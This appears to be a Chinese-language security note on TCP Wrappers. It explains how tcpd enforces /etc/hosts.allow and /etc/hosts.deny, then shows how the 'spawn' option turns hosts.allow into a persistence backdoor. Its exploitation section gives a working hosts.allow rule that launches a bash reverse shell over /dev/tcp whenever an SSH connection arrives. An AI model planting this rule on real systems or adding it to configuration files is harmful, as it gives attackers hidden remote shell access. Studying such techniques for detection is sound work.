 ```yaml
---
title: "TCP Wrappers"
id: zhfly3508
---
```


## TCP Wrappers

TCPWrappers是一个工作在第四层（传输层）的的安全工具，对有状态连接的特定服务进行安全检测并实现访问控制，凡是包含libwrap.so库文件的的程序就可以受TCPWrappers的安全控制。它的主要功能就是控制谁可以访问，常见的程序有rpcbind、vsftpd、sshd，telnet。

**工作原理**

TCP_Wrappers有一个TCP的守护进程叫做tcpd。以ssh为例，每当有ssh的连接请求时，tcpd即会截获请求，先读取系统管理员所设置的访问控制文件，符合要求，则会把这次连接原封不动的转给真正的ssh进程，由ssh完成后续工作；如果这次连接发起的ip不符合访问控制文件中的设置，则会中断连接请求，拒绝提供ssh服务。

**利用**

TCP_Wrappers的使用主要是依靠两个配置文件/etc/hosts.allow, /etc/hosts.deny，用于拒绝和接受。这里演示使用的是接受配置信息。之所以能够被用作后门是因为他存在一个参数是spawn （spawn启动一个外部程序完成执行的操作） 修改/etc/hosts.allow文件：

```
ALL: ALL: spawn (bash -c "/bin/bash -i >& /dev/tcp/127.0.0.1/6666 0>&1") & :allow 
```

![image](../img/19d8825dce2e326695839b176cb1080f.png)

![image](../img/667331e4250a634c5354159c60840074.png)

当使用ssh连接的时候，它开始匹配规则，然后利用spawn执行的nc反弹了一个shell。